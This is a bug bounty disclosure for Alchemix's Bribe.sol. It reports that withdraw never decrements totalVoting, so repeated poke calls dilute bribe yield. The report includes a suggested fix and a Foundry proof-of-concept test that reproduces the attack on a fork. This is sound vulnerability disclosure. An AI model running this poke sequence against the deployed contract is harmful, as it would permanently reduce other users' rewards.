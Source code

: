 
# No accounting for totalVoting in `Bribe.sol::withdraw` function leads to loss of Yield

Submitted on May 21st 2024 at 02:17:27 UTC by @gladiator111 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31527

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:
- Permanent freezing of unclaimed yield

## Description
## Brief/Intro
`Bribe.sol::withdraw` doesn't decrease `totalVoting` which can be exploited by a malicious user to permanently decrease yield.

## Vulnerability Details
In the function, `Bribe.sol::withdraw`,`totalVoting` is not decreased and checkpointed as expected. The Withdraw function is called when a user withdraws their vote. It should decrease totalVoting but it is not.
```solidity
    //Doesn't decrease TotalVoting
    function withdraw(uint256 amount, uint256 tokenId) external {
        require(msg.sender == voter);

        totalSupply -= amount;
        balanceOf[tokenId] -= amount;

        _writeCheckpoint(tokenId, balanceOf[tokenId]);
        _writeSupplyCheckpoint();

        emit Withdraw(msg.sender, tokenId, amount);
    }
```
This can be exploited by malicious user, as the user can call poke repeatedly (as it doesn't have same Epoch constraints) to indefinitely increase totalSupply. When totalVoting is increased the earned yield will also decrease as follows
```solidity
reward += (cp.balanceOf * tokenRewardsPerEpoch[token][_lastEpochStart]) / _priorSupply;   //_priorSupply is totalVoting in the epoch
```
Users will earn far less yield. The more times the `poke` function is called, the less the yield will become.
`Note - It doesn't even need a malicious user as some users will call poke after voting which will decrease yield`
## Impact Details
The Yield will be permanently frozen/lost.

## Suggestions/ Recommendations
modify the function as follows
```diff
    function withdraw(uint256 amount, uint256 tokenId) external {
        require(msg.sender == voter);

        totalSupply -= amount;
        balanceOf[tokenId] -= amount;
+       totalVoting -= amount;

+       _writeVotingCheckpoint();
        _writeCheckpoint(tokenId, balanceOf[tokenId]);
        _writeSupplyCheckpoint();

        emit Withdraw(msg.sender, tokenId, amount);
    }
```
## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L319-329



## Proof of Concept
Paste the following in Voting.t.sol and run using
```bash
forge test --match-test testYieldLoss -vvvv --fork-url $FORK_URL
```
```solidity
function testYieldLoss() public {
        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(beef, TOKEN_1, MAXTIME, false);
        address bribeAddress1 = voter.bribes(address(sushiGauge));
        address bribeAddress2 = voter.bribes(address(balancerGauge));
        createThirdPartyBribe(bribeAddress1, bal, 1e19);
        createThirdPartyBribe(bribeAddress1, aura, 1e19);
        createThirdPartyBribe(bribeAddress2, bal, 1e19);
        createThirdPartyBribe(bribeAddress2, aura, 1e19);

        address[] memory pools = new address[](2);
        pools[0] = sushiPoolAddress;
        pools[1] = balancerPoolAddress;
        uint256[] memory weights = new uint256[](2);
        weights[0] = 5000;
        weights[1] = 5000;

        address[] memory bribes = new address[](2);
        bribes[0] = address(bribeAddress1); 
        bribes[1] = address(bribeAddress2); 

        address[][] memory tokens = new address[][](2);
        tokens[0] = new address[](2);                
        tokens[0][0] = bal;
        tokens[0][1] = aura;
        tokens[1] = new address[](2);                
        tokens[1][0] = bal;
        tokens[1][1] = aura;

        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);
        console.log(IBribe(bribeAddress1).totalVoting());
        hevm.prank(beef);
        voter.vote(tokenId2,pools,weights,0);
        console.log(IBribe(bribeAddress1).totalVoting());

        for(uint256 i =0;i<20;i++){                // calling poke again and again
        hevm.prank(admin);
        voter.poke(tokenId1);
        }
        console.log(IBribe(bribeAddress1).totalVoting());  //totalVotes increase significantly

        hevm.warp(block.timestamp + nextEpoch);

        uint256 beforeBalance = IERC20(bal).balanceOf(beef);
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);
        uint256 afterBalance = IERC20(bal).balanceOf(beef);
        console.log(afterBalance-beforeBalance);              //user gets far less yield
}
```